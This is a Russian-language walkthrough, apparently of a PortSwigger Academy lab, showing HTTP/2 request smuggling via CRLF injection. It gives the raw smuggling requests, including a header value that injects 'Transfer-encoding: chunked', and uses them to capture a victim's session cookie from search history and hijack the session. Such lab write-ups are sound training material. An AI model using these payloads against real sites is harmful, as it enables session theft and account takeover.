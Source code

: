 Перейдем на уязвимый ресурс 

Изучим историю запросов в `Proxy` -> `HTTP history`

и отправим в `Repeater` запрос на корневую страницу и модифицируем его

принудительно поменяем версию протокола на HTTP2
```
POST / HTTP/2
Host: 0a0e000504fbcdd08023774700380017.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /qweqdnqifbqbqwoncqicnqw HTTP/1.1
X-ignore: x
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection/pics%20for%20walkthrough/1.png)

И сколько бы мы не отправляли этот запрос, и последующие на корневую страницу -  все равно 200 статус респонс код

Вполне возможно, хэдер `Transfer-encoding : chunked` не проходит валидацию на сервисе
Попробуем обойти ограничение, и в `Inspector` ->` Request headers` создадим `header Foo `
со значением 
```
Bar\r\n
Transfer-encoding : chunked
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection/pics%20for%20walkthrough/2.png)

сохраним

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection/pics%20for%20walkthrough/3.png)

и тогда наш запрос преобразится в 
```
0

GET /qweqdnqifbqbqwoncqicnqw HTTP/1.1
X-ignore: x
```
и отправим любой другой запрос, и мы увидим 404 нот фаунд, что означает, что мы до сих пор можем отправлять подставные запросы

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection/pics%20for%20walkthrough/4.png)


так же заметим, что при поиске, сохраняются недавние результаты поисковых запросов, попробуем проэксплуатировать данную уязвимость, и передать в параметр поиска весь запрос вместе с заголовками и посмотрим, отобразятся ли они на экране
```
0

POST / HTTP/1.1
Host: 0a0e000504fbcdd08023774700380017.web-security-academy.net
Cookie: session=EzLcz1D9E3ziJa2ZZmOkgytf40zKUqVx
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

search=qwe
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection/pics%20for%20walkthrough/5.png)


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection/pics%20for%20walkthrough/6.png)

и пошлем легитимный запрос
```
POST / HTTP/2
```

и увидим, что гипотеза отработала и мы видим все заголовки с запрос

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection/pics%20for%20walkthrough/7.png)

Теперь повторим, и дождемся пока сторонний пользователь отправит запрос, чтобы подглядеть его заголовки и сессии

вновь отправим запрос
```
0

POST / HTTP/1.1
Host: 0a0e000504fbcdd08023774700380017.web-security-academy.net
Cookie: session=EzLcz1D9E3ziJa2ZZmOkgytf40zKUqVx
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

search=qwe
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection/pics%20for%20walkthrough/8.png)

и ждем 

спустя время обновим страницу и увидим, что у нас появился запрос жертвы в истории поиска откуда мы можем взять его сессионный ключ
`session=XN6j1eNSGpRPR4cAbeOG9X4g3fwxQYpN;`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection/pics%20for%20walkthrough/9.png)


через `Inspect` -> `Application` -> `Storage` -> `Cookies` изменим куку и получим уведомлени об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection/pics%20for%20walkthrough/10.png)

